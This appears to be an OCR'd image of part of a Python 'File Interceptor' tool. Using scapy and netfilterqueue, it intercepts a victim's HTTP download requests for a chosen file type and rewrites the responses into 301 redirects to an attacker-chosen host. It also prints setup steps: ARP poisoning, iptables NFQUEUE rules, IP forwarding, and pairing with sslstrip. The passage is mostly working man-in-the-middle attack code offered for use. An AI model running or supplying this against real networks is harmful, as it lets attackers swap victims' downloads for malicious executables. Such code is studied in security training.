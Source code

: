 ```python
    if scapy_packet.haslayer(scapy.Raw):
    # using sslstrip
        if scapy_packet[scapy.TCP].dport == 10000:
            #print("[+] HTTP Request found")
            # Check for download exe's
            if options.type in scapy_packet[scapy.Raw].load:
                print("[+] An exe request has been found. Trying to Intercept.\n")
                ack_list.append(scapy_packet[scapy.TCP].ack)
            #print(scapy_packet.show())
        # using sslstrip
        elif scapy_packet[scapy.TCP].sport == 10000:
            #print("[+] HTTP Response found")
            # Checking for redundant exe
            if scapy_packet[scapy.TCP].seq in ack_list and options.host.split("//")[1] not in scapy_packet[scapy.Raw].load :
                ack_list.remove(scapy_packet[scapy.TCP].seq)
                print("[+] Replacing file\n\n")
                # Remove any clutter added to packet using \n\n
                modified_packet = set_load(scapy_packet, "HTTP/1.1 301 Moved Permanently\r\nLocation: " + options.host + "\n\n")
                print("[+] Request succesfully redirected to target: " + options.host)
                # Convert scapy packet to str and payload
                packet.set_payload(str(modified_packet))

    packet.accept()

print("""
    _______ __        ____      __                            __            
   / ____(_) /__     /  _/___  / /____  _____________  ____  / /_____  _____
  / /_  / / / _ \    / // __ \/ __/ _ \/ ___/ ___/ _ \/ __ \/ __/ __ \/ ___/
 / __/ / / /  __/  _/ // / / / /_/  __/ /  / /__/  __/ /_/ / /_/ /_/ / /    
/_/   /_/_/\___/  /___/_/ /_/\__/\___/_/   \___/\___/ .___/\__/\____/_/     
                                                   /_/                      
    """)

try:
    options = get_arguments()
    print("[-] Note: To redirect a target remote system, ARP Poison the target's cache to allow all DNS requests to flow through this machine\n\n")
    print("\n\n******************************************************************************************")
    print("""
    [!] Run the following commands as root before using this program.
    
    1. iptables -I OUTPUT -j NFQUEUE --queue-num 0
    2. iptables -I INPUT -j NFQUEUE --queue-num 0
    3. echo 1 > /proc/sys/net/ipv4/ip_forward
    
    """)
    queue = netfilterqueue.NetfilterQueue()
    # Bind to created queue using iptables; process_packet-->callback()
    queue.bind(0, process_packet)
    queue.run()
except KeyboardInterrupt:
    print("\n[-] Detected CTRL + C ......\n[+] Exitting!")
```
